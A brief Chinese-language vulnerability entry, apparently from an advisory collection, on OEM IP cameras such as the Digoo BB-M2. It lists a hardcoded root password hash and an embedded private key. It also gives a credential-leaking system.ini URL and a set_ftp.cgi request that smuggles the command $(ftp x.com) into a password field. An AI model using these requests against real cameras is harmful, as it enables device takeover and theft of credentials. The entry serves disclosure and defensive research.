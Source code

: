 ##cve编号：无
##漏洞名称：OEM摄像头漏洞
##漏洞类型：摄像头命令执行，敏感信息泄漏
##影响版本：
- Digoo BB-M2
- 影响很多，超过1250款OEM型号和20多万台摄像头
##利用脚本：
- 无
##漏洞细节：
- 固件中存在一组账户： `root:$1$ybdHbPDn$ii9aEIFNiolBbM9QxW9mr0:0:0::/root:/bin/sh`
- 固件的` /system/www/pem/ck.pem` 文件包含了Apple证书和私钥
- `http://url/system.ini?loginuse&loginpas`
- 需要登录的命令执行 
- `http://192.168.1.100/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=password&svr=192.168.1.1&port=21&user=ftp&pwd=$(ftp x.com)ftp&dir=/&mode=PORT&upload_interval=0`
##reference：
[link](https://ht-sec.org/wireless-ip-camera-multiple-vulnerabilities/)
